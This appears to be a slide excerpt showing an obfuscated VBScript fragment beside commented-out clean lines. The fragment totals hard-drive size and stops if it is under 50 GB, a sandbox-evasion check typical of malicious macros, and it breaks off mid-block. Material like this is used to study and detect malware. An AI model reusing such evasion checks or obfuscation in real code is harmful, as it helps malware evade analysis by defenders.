

# fAsKosm - Check size of the hard drive
Set judiciouslItems = setupService.ExecQuery("Select * from Win32_LogicalDisk")
    For Each inhwg In judiciouslItems
   	 Ppli = Ppli + Int(inhwg.Size / (39 + ((22 + (-17.0)) + (1073741782 - 2.0))))
'   	 myDiskSizeGB = myDiskSize + Int(myDisk.Size / 1073741824
    Next
    If round(Ppli) < (((7 + 27.0) + (-19.0)) + (6208 - 6173.0)) Then
'    If round(myDiskSizeGB) < 50
   	 GewqX("DEBUG: FS_FCH - False")
   	 Ldj